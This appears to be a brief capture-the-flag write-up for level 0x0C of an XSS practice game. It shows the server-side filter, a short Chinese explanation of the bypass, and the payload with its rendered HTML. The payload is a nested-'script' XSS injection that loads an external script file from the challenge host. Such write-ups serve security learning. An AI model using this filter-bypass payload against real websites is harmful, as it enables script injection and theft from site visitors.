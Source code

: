 # 0x0C

## server code:

```
function render (input) {
  input = input.replace(/script/ig, '')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```

## 分析:

```
首先将script不论大小写用空替换,并将输入的数据用toUpperCase进行了大写转换。绕过script过滤后利用html 标签, 域名 不区分大小写的方式来攻克。
1.引用外部链接解决
```

## input code:

```
1. <scscriptript src="https://xss.haozi.me/j.js"></scscriptript>


```

## html:

```
1. <h1><SCRIPT SRC="HTTPS://XSS.HAOZI.ME/J.JS"></SCRIPT></h1>
```

![00C](/img/xss/haozi/00C.png)
